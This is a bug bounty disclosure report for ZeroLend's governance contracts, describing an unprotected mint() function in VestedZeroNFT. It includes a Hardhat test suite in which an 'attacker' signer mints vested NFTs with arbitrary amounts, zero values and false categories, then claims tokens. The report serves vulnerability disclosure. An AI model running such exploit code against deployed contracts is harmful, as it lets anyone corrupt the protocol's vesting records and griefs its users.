 
# Unauthorized minting of vested NFTs

Submitted on Feb 29th 2024 at 16:43:28 UTC by @riptide for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28875

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
`VestedZeroNFT` contract lacks a permissioned modifer for `mint()` on `L63` which allows any user to mint an unlimited amount of `VestedZeroNFTs` to any address with falsified categories.

## Vulnerability Details
Lack of permissioned modifier to a function explicitly specified as protected in the comments.

## Impact Details
Low impact other than misrepresenting the `VestCategory` at will and corrupting any analytics when viewing the collection and stats of the vested NFTs (amounts, cliff times, linear, etc all can be arbitrarily set).

## References
Add any relevant links to documentation or code


## Proof of concept
```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { VestedZeroNFT } from "../typechain-types";
import { e18 } from "./fixtures/utils";
const { ethers } = require("hardhat");

describe.only("VestedZeroNFT", () => {
  let ant: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    vest = deployment.vestedZeroNFT;
    now = Math.floor(Date.now() / 1000);

  });

  describe("unprotected mint function", () => {

    it("anyone can mint an NFT with any vesting parameters", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );
      expect(await vest.balanceOf(ant)).to.equal(1);
      expect(await vest.ownerOf(1)).to.equal(ant.address);
      expect(await vest.tokenOfOwnerByIndex(ant.address, 0)).to.equal(1);

      await time.increaseTo(now + 1001);
      const res = await vest.claimable(1);
      console.log("unlock date: ", now + 1000);
      console.log(res);
      expect(res.upfront).to.equal(e18 * 5n);
      expect(res.pending).to.equal(e18 * 15n);

      expect(await vest.claim.staticCall(1)).to.eq(e18 * 20n);
      await vest.claim(1);
      expect(await vest.claimed(1)).to.equal(e18 * 20n);
      expect(await vest.unclaimed(1)).to.equal(0);
    });

    
    it("anyone can mint an NFT with zero value", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        0, // 15 ZERO linear vesting
        0, // 5 ZERO upfront
        1, // linear duration
        500, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );

    });

    it("anyone can mint an NFT with incorrect categorization", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        1
      );
    });


  });
});
```